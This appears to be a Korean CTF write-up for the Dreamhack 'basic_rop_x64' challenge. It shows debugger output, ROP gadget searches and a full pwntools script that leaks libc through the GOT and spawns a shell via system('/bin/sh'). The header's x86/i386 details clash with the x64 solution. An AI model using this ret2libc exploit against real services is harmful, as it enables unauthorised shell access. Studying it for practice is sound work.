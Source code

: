 ```yaml
---
title: basic_rop_x64
author: hwang
date: 2024-05-14 17:00:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_rop_x64]     # TAG names should always be lowercase
---
```


## Description
이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x86)의 바이너리와 소스 코드가 주어집니다.
Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Solution
주어진 C코드를 분석하면, 버퍼의 크기가 0x40이고, 입력을 0x400바이트만큼 받으므로, 버퍼 오버플로우를 통해 ret에 접근가능하다. canary는 적용되어 있지 않다.

쉘코드를 직접 입력하는 것은 NX에 의해 불가능하다. 따라서, ELF 테이블의 symbol, plt, got값들과, ROFgadget, 그리고 특정 문자열을 search함으로서 최종적으로 **system("/bin/sh")**을 실행해야 한다.

처음 버퍼 오버플로우를 일으킨 후, ret에서 **write(1, read@got, 8)**을 실행시켜야 한다. 이후, **system("/bin/sh")**을 실행시키기 위해 ret2main 기법을 활용하여 main함수를 다시 호출해야 한다.

"/bin/sh"문자열은 libc에서 가져올 수 있다.

```bash
pwndbg> search "/bin/sh"
Searching for value: '/bin/sh'
libc.so.6       0x7ffff7dd8678 0x68732f6e69622f /* '/bin/sh' */
```

read(), write()의 plt값은 ELF테이블에서 확인할 수 있다.
```bash
pwndbg> plt
Section .plt 0x4005b0-0x400640:
0x4005c0: puts@plt
0x4005d0: write@plt
0x4005e0: alarm@plt
0x4005f0: read@plt
0x400600: __libc_start_main@plt
0x400610: signal@plt
0x400620: setvbuf@plt
0x400630: exit@plt
```

read()의 got값은 read@plt 실행 이후 read()의 주소값이 got에 저장된다.
```bash
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/hwangshincheol/test/basic_rop_x64/basic_rop_x64:
GOT protection: Partial RELRO | Found 8 GOT entries passing the filter
[0x601018] puts@GLIBC_2.2.5 -> 0x4005c6 (puts@plt+6) ◂— push 0 /* 'h' */
[0x601020] write@GLIBC_2.2.5 -> 0x4005d6 (write@plt+6) ◂— push 1
[0x601028] alarm@GLIBC_2.2.5 -> 0x4005e6 (alarm@plt+6) ◂— push 2
[0x601030] read@GLIBC_2.2.5 -> 0x4005f6 (read@plt+6) ◂— push 3
[0x601038] __libc_start_main@GLIBC_2.2.5 -> 0x7ffff7c29dc0 (__libc_start_main) ◂— endbr64 
[0x601040] signal@GLIBC_2.2.5 -> 0x400616 (signal@plt+6) ◂— push 5
[0x601048] setvbuf@GLIBC_2.2.5 -> 0x400626 (setvbuf@plt+6) ◂— push 6
[0x601050] exit@GLIBC_2.2.5 -> 0x400636 (exit@plt+6) ◂— push 7
```
rdi와 rsi에 가젯을 활용하여 인자를 지정할 수 있다.
``` bash
hwangshincheol@hsc:~/test/basic_rop_x64$ ROPgadget --binary ./basic_rop_x64 --re "pop rdi"
Gadgets information
============================================================
0x0000000000400883 : pop rdi ; ret

Unique gadgets found: 1
hwangshincheol@hsc:~/test/basic_rop_x64$ ROPgadget --binary ./basic_rop_x64 --re "pop rsi"
Gadgets information
============================================================
0x0000000000400881 : pop rsi ; pop r15 ; ret

Unique gadgets found: 1
hwangshincheol@hsc:~/test/basic_rop_x64$ 
```

Exploit 코드를 작성하면 다음과 같다.
``` python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))


p = process('./basic_rop_x64', env={"LD_PRELOAD": './libc.so.6'})
#p = remote('host3.dreamhack.games', 11276)

e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6', checksec=False)
r = ROP(e)

# 목표: system("/bin/sh") 실행
# 1. read()의 GOT값 읽기 (write(1, read@got, 8))
# 2. libc base값 구하기 (read - read offset)
# 3. system 주소값 = libc base + system_offset

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]

bin_sh_offset = list(libc.search(b"/bin/sh"))[0]
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi'])[0]

# read(1, read@got, 8), rdx값은 충분히 크게 설정됨, r15값은 임의의 덤프값으로 설정
payload = b"A" * 0x40 + b"B" * 0x8
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0xdeadbeef)
payload += p64(write_plt)

# ret2main 기법 활용
payload += p64(main)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6)+b'\x00'*2)
libc_base = read - read_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset

slog('read', read)
slog('libc_base', libc_base)
slog('system', system)
slog('bin_sh', bin_sh)

# system("/bin/sh") 실행
payload = b"A" * 0x40 + b"B" * 0x8
payload += p64(pop_rdi) + p64(bin_sh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
``` 

실행 결과는 다음과 같다.
``` bash
hwangshincheol@hsc:~/test/basic_rop_x64$ python3 basic_rop_x64.py
[+] Starting local process './basic_rop_x64': pid 2737
[*] '/home/hwangshincheol/test/basic_rop_x64/basic_rop_x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './basic_rop_x64'
[+] read: 0x7caa57314980
[+] libc_base: 0x7caa57200000
[+] system: 0x7caa57250d60
[+] bin_sh: 0x7caa573d8698
[*] Switching to interactive mode
$ 
``` 
